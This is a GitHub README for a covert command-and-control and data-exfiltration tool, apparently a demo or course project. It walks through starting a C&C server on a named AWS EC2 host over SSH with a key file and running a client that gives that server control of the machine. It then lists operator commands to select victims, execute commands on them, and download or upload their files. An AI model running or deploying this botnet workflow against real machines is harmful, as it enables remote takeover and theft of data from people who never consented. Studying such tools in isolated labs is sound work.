# Covert C&C and Exfiltration

#### https://github.com/HyejunJeong/covert-cnc-exfiltration

This program is a client and a server for covert command and control of, and data exfiltration from, an infected client. 


#### Requirements 
* Linux
* python3

## Getting Started

This project is divided into the server and client program.


### Running the __Server__

1. cd to the project directory, and ssh into aws cloud server. 
    ```shell
    chmod 700 ./aws_key.pem 
    ssh -i "aws_key.pem" ubuntu@ec2-18-205-103-236.compute-1.amazonaws.com
    ```
2. In the aws cloud server, cd to covert-cnc-exfiltration and run the server.
    ```shell
    cd covert-cnc-exfiltration
    sudo python3 server2.py
    ```

### Running the __Client__
> **Note:** You will have to **start the server first** before running the client.

1. Clone this repository.
    ```shell
    git clone https://github.com/HyejunJeong/covert-cnc-exfiltration
    ```

2. Run the client on the project directory (in the client machine).
    ```shell
    python3 client2.py
    ```
> **Note:** By running client2.py on your computer will give the cloud server control of your computer (hence "botnet"), so it's good idea to use a virtual machine instead of your actual computer.



## Instructions

1. In the server, wait for the client connection and run ``` list ``` to see connected clients.

2. Run ``` select <client number>``` to select the target
3. Try running a command. 

> **Note:** If your command is invalid, it will print an error message, "No such file or directory: ...". This is because subprocesses uses the underlying POSIX execve and that's what it will report if command is invalid.

4. You can download and upload files using ``` download <file name from target> ``` and ``` upload <file name from C&C computer> ``` to download and send files from/to victim respectively.

> **Note:** If you do download/upload on a file that doesn't exist, it will give you the same error (No such file or directory: ...).

5. Press ``Ctrl-C`` to shut down the server.
